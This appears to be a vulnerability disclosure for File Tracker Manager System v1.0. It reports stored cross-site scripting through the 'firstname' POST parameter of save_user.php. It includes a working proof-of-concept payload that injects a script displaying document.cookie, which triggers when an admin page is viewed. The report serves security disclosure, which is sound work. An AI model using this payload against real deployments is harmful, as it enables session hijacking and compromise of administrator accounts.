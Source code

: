 # File Tracker Manager System v1.0 has stored cross-site scripting

BUG_Author: HaolunSong

Vulnerability File: /file_manager/admin/save_user.php

Parameter "firstname" (POST), exists stored cross-site scripting vulnerability

Payload:status=normal&emplnumber=2&firstname=<script>alert(document.cookie)</script>&lastname=3&region=zanzibar

![image](https://github.com/csbsong/bug_report/blob/main/xss1.png)

Payload will trigger when a user visits on http://localhost/file_manager/admin/admin_user.php

![image](https://github.com/csbsong/bug_report/blob/main/xss2.png)
